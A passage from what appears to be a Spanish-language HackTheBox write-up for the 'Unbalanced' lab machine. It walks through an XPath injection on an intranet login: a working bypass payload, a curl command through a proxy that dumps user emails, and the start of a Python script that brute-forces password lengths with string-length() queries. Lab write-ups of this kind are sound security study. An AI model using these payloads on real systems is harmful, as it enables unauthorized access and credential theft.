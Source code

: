 Si introduzco una comilla, desaparece. Pero no se trata de una inyección SQL. En caso de utilizar SQLMap no va a detectar nada. Se trata de una XPath Inyection

```null
Username=admin&Password=' or 1=1 or ''='
```

Obtengo todos los usuarios

```null
curl -s -X POST http://172.31.179.1/intranet.php -d "Username=admin&Password=' or 1=1 or ''='" --proxy http://10.10.10.200:3128 | grep -oP '<p>.*?</p>' | grep htb | tr -d ' ' | sed 's/<p>//' | sed 's/<\/p>//'
rita@unbalanced.htb
jim@unbalanced.htb
bryan@unbalanced.htb
sarah@unbalanced.htb
```

[PayloadAllThethings](https://swisskyrepo.github.io/PayloadsAllTheThings/XPATH%20Injection/#summary) tiene una guía de las ```XPath Inyection```. Utilizo el ```Intruder``` de ```BurpSuite``` para bruteforcear la longitud de la contraseña para un usuario dado

<img src="/writeups/assets/img/Unbalanced-htb/7.png" alt="">

El total es 11. Como ha funcionado, creo un script en python que se encargue de dumpear las contraseñas para cada usuario. Lo primero es saber la longitud

```null
#!/usr/bin/python3

import sys, signal, requests, time, string, pdb

def def_handler(sig, frame):
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://172.31.179.1/intranet.php"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation
users = ["rita", "jim", "bryan", "sarah"]
burp = {'http': 'http://127.0.0.1:8080'}


def getpasslen(user):

    for length in range(1, 40):
        post_data = {
        'Username':'admin',
        "Password": "admin' or Username='%s' and string-length(Password)='%d" % (user, length)
        }
```